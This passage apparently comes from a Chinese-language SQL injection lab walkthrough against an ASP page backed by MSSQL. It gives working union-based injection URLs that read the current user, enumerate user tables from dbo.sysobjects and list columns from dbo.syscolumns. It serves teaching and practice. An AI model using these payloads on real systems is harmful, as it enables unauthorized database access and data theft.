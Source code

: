 [![](https://p4.ssl.qhimg.com/t01409617b57bcdb809.png)](https://p4.ssl.qhimg.com/t01409617b57bcdb809.png)

3、查询当前用户

```
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select user),null -- qwe
```

[![](https://p3.ssl.qhimg.com/t01e868a65736530e91.png)](https://p3.ssl.qhimg.com/t01e868a65736530e91.png)

### <a class="reference-link" name="4%E3%80%81%E6%9F%A5%E8%AF%A2%E8%A1%A8%E5%90%8D"></a>4、查询表名

查询dbo.sysobjects表中用户创建的表，获取其对应的id和name

```
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,id,name,null from dbo.sysobjects where xtype='U' -- qwe
```

[![](https://p4.ssl.qhimg.com/t0125721234db891a35.png)](https://p4.ssl.qhimg.com/t0125721234db891a35.png)

查询下一个表名

```
#使用&lt;&gt;获取下一条数据
http://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,id,name,null from dbo.sysobjects where xtype='U' and id &lt;&gt; 5575058 -- qwe
#使用not in获取下一条数据
http://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,id,name,null from dbo.sysobjects where xtype='U' and id not in ('5575058') -- qwe
```

[![](https://p4.ssl.qhimg.com/t011661598555b1c380.png)](https://p4.ssl.qhimg.com/t011661598555b1c380.png)

### <a class="reference-link" name="5%E3%80%81%E6%9F%A5%E8%AF%A2%E5%88%97%E5%90%8D"></a>5、查询列名

这里有个坑，查询列名的时候因为已经知道了表名的id值，所以where只需要使用id即可，不再需要xtype了。

```
http://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,id,name,null from dbo.syscolumns where id='5575058'-- qwe
```

[![](https://p2.ssl.qhimg.com/t01c91e959dfc120a52.png)](https://p2.ssl.qhimg.com/t01c91e959dfc120a52.png)

```
http://219.153.49.228:40574/new_list.asp?id=-2 union all select top 1 null,id,name,null from dbo.syscolumns where id='5575058' and name not in ('id','username')-- qwe
```

[![](https://p0.ssl.qhimg.com/t01a8944599c209006a.png)](https://p0.ssl.qhimg.com/t01a8944599c209006a.png)
